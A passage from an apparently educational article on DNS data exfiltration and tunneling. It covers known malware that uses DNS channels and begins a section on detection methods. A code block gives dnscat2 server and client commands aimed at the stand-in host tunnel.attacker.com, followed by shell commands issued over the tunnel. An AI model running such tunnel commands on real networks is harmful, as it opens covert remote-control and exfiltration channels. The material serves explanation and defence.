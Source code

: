 After this setup, all SSH traffic is encapsulated in DNS queries and responses.

**dnscat2 tunneling example (command execution)**:
```bash
# Server side (attacker server)
ruby ./dnscat2.rb tunnel.attacker.com

# Client side (internal network system)
./dnscat2 --domain tunnel.attacker.com

# Execute commands on server (after shell acquisition)
dnscat2> window -i 1
dnscat2> exec cmd.exe
```

**Differences between DNS data exfiltration and DNS tunneling**:

| Characteristic | DNS Data Exfiltration | DNS Tunneling |
|----------------|----------------------|---------------|
| Communication direction | Primarily one-way (internal→external) | Supports bidirectional communication |
| Complexity | Relatively simple | More complex protocol design |
| Speed | Intermittent transmission possible | Maintains persistent connection |
| Detection difficulty | Medium | High (concealed persistent connection) |
| Primary use | Data exfiltration | Remote control, tunneling, proxy |

**Role of nameserver in DNS tunneling**:
In tunneling, the attacker's nameserver plays a more active role:
* Extracting commands or data from incoming DNS queries
* Encoding commands or data in response packets
* Maintaining session state and connection management

## Real Cases and Malware

DNS data exfiltration is used by various APT (Advanced Persistent Threat) groups and malware:

1. **FrameworkPOS**: Exfiltrates credit card information from POS (Point of Sale) systems via DNS queries
2. **Multigrain**: Exfiltrates card data via DNS queries after infecting payment terminals
3. **APT group C&C**: Various APT groups like OilRig and APT29 use DNS as a C&C (Command and Control) channel
4. **PlugX**: Malware used by China-related APT groups, includes DNS tunneling capabilities
5. **Feederbot**: Botnet malware that receives control commands via DNS

## DNS Data Exfiltration Detection Methods

### 1. Traffic Pattern Analysis

* Detecting **abnormal DNS query volume**
* **Domain entropy measurement**: Detecting subdomains with high randomness
* **Query frequency monitoring**: Checking for many queries in a short time
